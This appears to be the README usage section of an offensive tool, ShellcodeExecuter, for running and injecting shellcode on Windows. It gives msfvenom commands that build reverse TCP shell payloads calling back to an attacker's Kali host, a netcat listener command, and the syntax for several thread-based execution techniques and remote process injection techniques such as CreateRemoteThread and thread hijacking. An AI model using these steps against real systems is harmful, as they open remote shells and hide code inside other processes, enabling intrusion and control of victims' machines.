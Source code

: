 
Generate Shellcode:
For x32: msfvenom -p windows/shell_reverse_tcp LHOST=[kali-machine-ip] LPORT=[port-number] -f raw > shell32.bin
For x64: msfvenom -p windows/x64/shell_reverse_tcp LHOST=[kali-machine-ip] LPORT=[port-number] -f raw > shell64.bin

Setup Listener: netcat -nlvp [port-number]

Execute Shellcode:
For x32: ShellcodeExecuter32 [Technique] [path/to/raw/shell32]
For x64: ShellcodeExecuter64 [Technique] [path/to/raw/shell64]

Execution Technique:
    1 (FunctionPointer)
    2 (CreateThread)
    3 (CreateFiber)
    4 (CreateThreadpool)
    5 (QueueUserAPC)

Inject Shellcode:
For x32: ShellcodeExecuter32 [Technique] [x32-PID] [path/to/raw/shell32]
For x64: ShellcodeExecuter64 [Technique] [x64-PID] [path/to/raw/shell64]

Injection Technique:
    1 (InjectNewEntryPoint, PID=0)
    2 (CreateRemoteThread)
    3 (HijackRemoteThread)